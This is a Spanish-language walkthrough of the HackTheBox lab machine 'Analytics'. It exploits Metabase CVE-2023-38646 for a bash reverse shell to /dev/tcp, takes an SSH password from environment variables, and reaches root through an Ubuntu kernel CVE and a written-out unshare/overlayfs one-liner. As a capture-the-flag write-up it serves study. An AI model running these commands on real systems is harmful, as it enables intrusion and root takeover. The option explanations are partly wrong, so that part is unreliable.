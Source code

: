 # Analytics

Hola, hoy tengo una guia de una maquina de HackTheBox, en las cuales estaremos viendo enumeración web basica y busqueda de exploits para ciertas versiones de diversas cosas que veremos en la actividad.

- Plataforma: [HackTheBox](https://app.hackthebox.com/machines/Analytics)
- Dificultad: Easy
- OS: Linux
- IP: 10.10.11.233

- Comenzamos escaneando el objetivo, los puertos 22 y 80 están expuestos:
~~~ bash 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.11.233
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/613ad81c-f162-468e-b0f9-1d120b39975c)

- Añadimos **10.10.11.233 analytical.htb** a /etc/hosts y podemos ver una pagina por el puerto 80
- Al enumerar la pagina, nos encontramos con un subdominio en http://data.analytical.htb:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/17a42111-3161-468d-8227-2052895d5a2d)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/e2d15162-9fba-4c16-a524-b1400ce402af)

- También encontré el [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) que según su descripción, permite omitir el login a través de una vulnerabilidad en la api de Metabase
- El CVE nos indica que debemos buscar un **setup-token** en la ruta http://vulnerablehost.com/api/session/properties
 
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b07035b-5a06-4183-bbb1-1b6106820cd5)

- Perfecto, ahora utilizamos el [PoC del exploit](https://github.com/securezeron/CVE-2023-38646?source=post_page-----bd3421cba76d--------------------------------) creado por securezeron para llevar a cabo la explotación con los parametros requeridos
- Tras probar varias veces, el PoC no me envió una conexión inversa, así que decidí revisar el codigo, y cambiar el payload

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c9c14f20-4e6f-4f74-b1ec-5e5c9242178f)

- Emplea un reverse shell encodeado en base64, por lo que opté por enviarlo por una solicitud hacia el endpoint ubicado en **/api/setup/validate**, mas en esta parte:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bb724431-cd72-4681-9480-33c8ce550d44)

Yo prefiero utilizar 
~~~ bash 
bash -c "bash -i >&/dev/tcp/<ip>/<port 0>&1>"
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b455954-d0eb-4581-871e-ca2e09ef1c18)

- Y estamos dentro :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0b5c1204-5002-4cc9-93ec-087375f8058d)

- Después de enumerar un poco, podemos descubrir que nos encontramos dentro de un docker:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/09fdd2c5-5ee5-4569-a0dd-474e78ccaace)

- Por lo que decidí revisar algunas variables de entorno, y encontramos una contraseña, probablemente de ssh:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b451245a-c596-4740-a012-24bfd65c5a7c)

- Y en efecto que eran de ssh, ahora tenemos una shell mucho mas estable:

 ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/70a88eb6-22a8-41d5-b2a3-5ec1ac98a25d)

  - Primera flag :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/55354378-feea-4495-b996-13a22d06b0a8)


***
<h3>PrivEsc</h3>

- Después de enumerar durante buen rato, me perdí al no encontrar posibles verctores de ataque, hasta que decidí mirar la versión del kernel y del sistema operativo

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/6c095b34-77bb-42b2-8f3e-a6befcd69847)

  - Del kernel no encontré nada, pero si encontré un [CVE para la versión de ubuntu](https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c)
  - Dado que es un exploit binario y requiero compilarlo, me di cuenta que la maquina victima no tiene gcc instalado, así que lo compilé en mi maquina y lo compartí por un servidor de python3

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/1071f439-186e-4232-a04f-a1dc4eb31d7a)

- Y somos root:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f529e177-aca6-4e4f-a41e-1df31901ddc5)

**Extra**

- Encontré otros [CVE-2023-2640 & CVE-2023-32629 en un foro de Reddit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=53261) donde se emplea una tecnica alterna para escalar a root a través de la creación de un entorno aislado dentro del equipo, con unshare, con el cual cambia el uid a uno perteneciente a root:

~~~ bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'";rm -rf l u w m
~~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa089137-e5e2-448f-b17f-e8d44e02b9e8)

**1- unshare -rm sh -c "...":**
Este comando utiliza la utilidad unshare para crear un nuevo espacio de nombres <namespace> con opciones -rm. Las opciones significan lo siguiente:
- r: Propaga una jerarquía de directorios nueva (root).
- m: Propaga un punto de montaje nuevo.
- sh -c "...": Ejecuta el shell sh en el nuevo espacio de nombres y ejecuta los comandos contenidos entre las comillas dobles "...".

2- mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3; mount - overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'":

Este comando realiza una serie de operaciones en el nuevo espacio de nombres creado:
- mkdir l u w m: Crea los directorios l, u, w, y m.
- cp /u*/b*/p*3 l/: Copia archivos que coincidan con el patrón /u*/b*/p*3 al directorio l.
- setcap cap_setuid+eip l/python3: Establece capacidades especiales en el archivo l/python3, que permiten la ejecución con capacidades adicionales (en este caso, la capacidad cap_setuid y cap_eip).
- mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: Monta un sistema de archivos overlay en el directorio m. Esto crea una capa que combina los archivos en l y u, donde l es la capa inferior (lowerdir), u es la capa superior (upperdir), y w es el directorio de trabajo (workdir). Esto permite la modificación de archivos sin afectar la capa inferior.
- touch m/*: Crea archivos vacíos en la capa combinada m.
- u/python3 -c 'import os;os.setuid(0);os.system("id")': Ejecuta el intérprete de Python (python3) que se encuentra en la capa superior u, y en ese intérprete, ejecuta un script que cambia el UID al de root (0) y luego ejecuta el comando bash para crear un entorno interactivo con las propiedades de root.
- rm -rf l u w m: Este comando solo elimina recursivamente los directorios l, u, w, y m
